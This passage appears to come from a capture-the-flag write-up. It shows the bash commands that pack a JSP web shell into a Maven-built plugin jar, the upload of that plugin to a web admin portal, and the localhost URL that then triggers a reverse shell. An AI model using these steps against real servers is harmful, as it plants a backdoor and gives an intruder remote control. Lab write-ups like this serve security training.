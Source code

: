 Next we build the package and add all the necessary files to the jar file

```bash
cp ../webshell.jsp ./src/main/web/exampleplugin-page.jsp
mvn -B package
cp ./target/exampleplugin.jar exampleplugin.zip; zip -ur exampleplugin.zip ./plugin.xml ./readme.html; mv exampleplugin.zip ./target/exampleplugin.jar;
```

After uploading our plugin in the web portal we can clearly see it has been added to the list of plugins

![Plugin uploaded](/assets/img/Jab/Jab_15.png)

Then we browse to the following url, after visiting this url the reverse shell will appear.

```
http://localhost:9090/plugins/exampleplugin/exampleplugin-page.jsp
```

![Reverse shell](/assets/img/Jab/Jab_16.png)
